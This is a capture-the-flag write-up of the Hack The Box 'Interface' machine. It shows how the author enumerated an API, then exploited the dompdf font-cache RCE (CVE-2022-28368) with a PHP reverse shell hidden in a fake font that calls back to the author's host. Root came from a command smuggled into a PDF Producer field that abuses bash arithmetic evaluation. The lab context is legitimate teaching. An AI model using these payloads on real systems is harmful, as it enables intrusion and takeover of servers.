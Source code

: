 ```yaml
---
title: "Hack The Box - Interface [Medium]"
date: 2023-02-14T02:01:27+03:00
draft: true
tags: ["hackthebox"]
---
```


The most important in this machine would be the enumeration, it exploits vulnerabilities like:
- [CVE-2022-28368](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)
- [Executing files with sudo privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

## Recon 

I started with just the website `interface.htb` where there isn't much going on, from what I gathered I saw that it was a Next.js application, but the interesting thing there were the headers.

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:44:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
Content-Length: 6359
```

I saw the CSP header which has a bunch of websites in, and frankly I didn't spot the subdomain at first, but that was the next pivoting point `http://prd.m.rendering-api.interface.htb`.

Going to the subdomain, you are greeted by a single `File not Found` text with a 404 status. Here comes the tricky part, the usual reconning using `ffuf,feroxbuster` and such, are ignoring the 404 status over the things it finds, and it's tricky to set something that is working for this particular case.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u http://prd.m.rendering-api.interface.htb/FUZZ -mc all -fs 0
```

I found several endpoints that are returning more than just 404.

```
api/experiments/configurations [Status: 404, Size: 50, Words: 3, Lines: 1...
api/experiments         [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
api                     [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
vendor                  [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 
```

Using `curl`, I found some API responses over those endpoints.

```http
$ curl -i http://prd.m.rendering-api.interface.htb/api/                                  
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:53:49 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
```

Then I began enumerating the API, by filtering the 404 using a GET request. 

The tricky thing is that you must try to use all the methods `GET,POST,PUT,DELETE` on everything. That could have been easier with `feroxbuster` but the thing is that on the `feroxbuster` tool there isn't an `-mc all` option which matches all the response codes and I had to do it manually with `ffuf`.

This is what I've used to find another pivot point.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/big.txt -u http://prd.m.rendering-api.interface.htb/api/FUZZ -mc all -fs 50 -X POST
...
html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1...
```

I found other stuff like `composer,dumpdf` before that and I started to search some exploits for `dumpdf` since I thought that would be the next pivot point and found this PoC of an exploit: https://github.com/positive-security/dompdf-rce.

The next thing to figure out was how to pass the file to that endpoint. While I tried to just send the file without any parameters, it returns `missing parameters` so I had to explore the `dompdf` implementations. The parameters that `dompdf` uses are just two. 

```php
$dompdf->loadHtml($html); 
$dompdf->setPaper('A4', 'landscape');
$dompdf->render();
```

I know that this is an API, so it must accept some JSON, so I crafted some random payload which I admit I got really lucky.

```json
{
	"html": "<h1>test</h1>",
	"paper": "A4"
}
```

Because the response was `200 OK` and a binary with the attached PDF.

## Exploiting the `dumpdf RCE`

The `dumpdf` is apparently caching the fonts that it processes during the conversion of HTML to PDF. It stores them under `/vendor/dompdf/dompdf/lib/fonts/` folder. Earlier in my discovery I enumerated another possible pivoting point that however gave 403, which was `/vendor/dompdf/dompdf` so following the PoC I've crafted the following payload.

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 47

{
	"html": "<link rel=stylesheet href='http://10.10.14.73:8000/syl.css'>",
	"paper": "A4"
}
```

```
# syl.css
@font-face {
    font-family:'syl';
    src:url('http://10.10.14.73:8000/syl.php');
    font-weight:'normal';
    font-style:'normal';
}
```

```
# syl.php, this is a legit font just with 1 line PHP on the bottom
<LEGIT FONT BINARY DATA>
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.73/4444 0>&1'"); ?>
```

After that I execute the request, the server would try to get the CSS and the font from my server, and it would cache the font into the specified folder and after executing the request. I saw that it does exactly that:

```
# My Server logs
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.css HTTP/1.0" 200 -
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.php HTTP/1.0" 200 -
```

That means that we have our 'font' already cached on the server under the folder `/vendor/dompdf/dompdf/lib/fonts/` however what would be the name, because trying to execute `syl.php` wasn't yielding results. 

To figure that out I thought it might be several things, `md5(file), md5(url of the font), some_hashing_algo(file/url of the font)` so I had to research how it saves the fonts. Fortunately, the PoC gives us a clue of how is this working. The font file there is named `exploitfont_normal_3f83639933428d70e74a061f39009622.php` and I brute forced my way out of this by trying `syl_normal_` and `md5(file), md5(url of the font)` and the URL of the font was the right one, so I got a reverse shell with that. 

```
$ curl -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/syl_normal_ee17d95350fea4e27875b56170439107.php
...
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.20.249] 60822
pwd
/var/www/api/vendor/dompdf/dompdf/lib/fonts
```

With that and using `linpeas.sh` I could read the first flag which is located in `/home/dev/user.txt`.

## Gaining Root

This was a tricky one, and I got some help with it since I couldn't find how. I only found a script that was cleaning some cache files with the tag `Producer: dompdf` in the `/tmp` folder. The script is located here: `/usr/local/sbin/cleancache.sh`. I was pretty sure that this is the root pivot point, but I didn't know how to exploit it. 

I joined some discussions and one of the users mentioned the `# Bash’s white collar eval: [[ $var -eq 42 ]] runs arbitrary code too` - https://www.vidarholen.net/contents/blog/?p=716

I didn't know that you could do that, but after reading the article it was clear what I should do.

```
$ cd /tmp
$ mkdir syl
$ cd syl && wget http://10.10.14.73:8000/admin.sh
$ chmod +x ./admin.sh
$ wget http://10.10.14.73:8000/test.pdf
$ exiftool -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
< -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
    1 image files updated
$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh
chmod: changing permissions of '/bin/bash': Operation not permitted
chmod: changing permissions of '/bin/bash': Operation not permitted
$ /bin/bash -p
bash-4.4# cat /root/root.txt
```